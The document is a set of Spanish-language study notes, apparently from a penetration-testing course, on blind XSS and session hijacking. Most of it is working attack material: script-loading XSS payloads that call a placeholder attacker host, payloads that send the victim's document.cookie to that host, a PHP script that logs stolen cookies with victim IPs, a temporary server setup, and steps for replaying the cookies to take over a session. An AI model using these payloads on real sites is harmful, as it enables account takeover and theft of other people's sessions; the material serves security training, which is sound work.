 
### Session Hijacking y Blind XSS

#### **Concepto de Session Hijacking**

- Las aplicaciones web modernas usan cookies para mantener la sesión activa entre diferentes sesiones de navegación.
- Si un atacante obtiene estas cookies, puede acceder a la cuenta de la víctima sin necesidad de conocer las credenciales.
- Mediante la ejecución de código JavaScript en el navegador de la víctima, es posible capturar las cookies y enviarlas al servidor del atacante, lo que facilita un ataque de _Session Hijacking_.

---

#### **Blind XSS**

- **Blind XSS** ocurre cuando la vulnerabilidad se ejecuta en una página a la que no tenemos acceso directo, como paneles de administración.
- Ejemplos comunes incluyen formularios de contacto, reseñas, detalles de usuario, tickets de soporte o encabezados HTTP como `User-Agent`.

---

#### **Detección de Blind XSS**

1. **Problema**: No podemos visualizar cómo se procesa nuestra entrada en el backend o en el navegador del admin.
2. **Solución**:
    - Usar un _payload_ de JavaScript que envíe una solicitud HTTP a nuestro servidor. Si recibimos la solicitud, sabemos que la página es vulnerable.
    - Para identificar el campo vulnerable, podemos personalizar el nombre del archivo de script solicitado:
        
        ```html
        <script src="http://OUR_IP/username"></script>
        ```
        
        Si recibimos una solicitud a `/username`, el campo `username` es vulnerable.

---

#### **Payloads comunes para Blind XSS**

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

---

#### **Configuración del servidor para pruebas**

1. Crear un servidor temporal:
    
    ```bash
    mkdir /tmp/tmpserver
    cd /tmp/tmpserver
    sudo php -S 0.0.0.0:80
    ```
    
2. Inyectar los payloads en diferentes campos, incluyendo el nombre del campo en la URL del script:
    
    ```html
    <script src=http://OUR_IP/fullname></script>
    <script src=http://OUR_IP/username></script>
    ```
    
3. Identificar los campos vulnerables al recibir solicitudes en el servidor.

---

#### **Explotación de XSS para Session Hijacking**

1. **Payloads para robar cookies**:
    
    ```javascript
    document.location='http://OUR_IP/index.php?c='+document.cookie;
    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
    ```
    
    - Se prefiere el segundo payload, ya que es menos sospechoso.
2. **Script PHP para capturar cookies**:
    
    ```php
    <?php
    if (isset($_GET['c'])) {
        $list = explode(";", $_GET['c']);
        foreach ($list as $key => $value) {
            $cookie = urldecode($value);
            $file = fopen("cookies.txt", "a+");
            fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
            fclose($file);
        }
    }
    ?>
    ```
    
    - Este script escribe las cookies capturadas en un archivo `cookies.txt`.
3. **Visualización de cookies capturadas**:
    
    - Las cookies se almacenan en `cookies.txt` con la IP y el valor de la cookie.

---

#### **Uso de las cookies robadas**

1. Abrir la página de inicio de sesión en el navegador.
2. Usar las herramientas de desarrollo (Shift+F9 en Firefox) para añadir manualmente la cookie:
    - **Nombre**: Parte antes del `=`.
    - **Valor**: Parte después del `=`.
3. Refrescar la página para acceder a la sesión de la víctima.

---

### **Resumen**

El ataque de _Session Hijacking_ aprovecha vulnerabilidades de XSS (especialmente _Blind XSS_) para capturar cookies y acceder a sesiones autenticadas. Mediante scripts remotos, un servidor temporal y un script PHP para registrar cookies, es posible identificar campos vulnerables y explotar estas vulnerabilidades para obtener acceso no autorizado.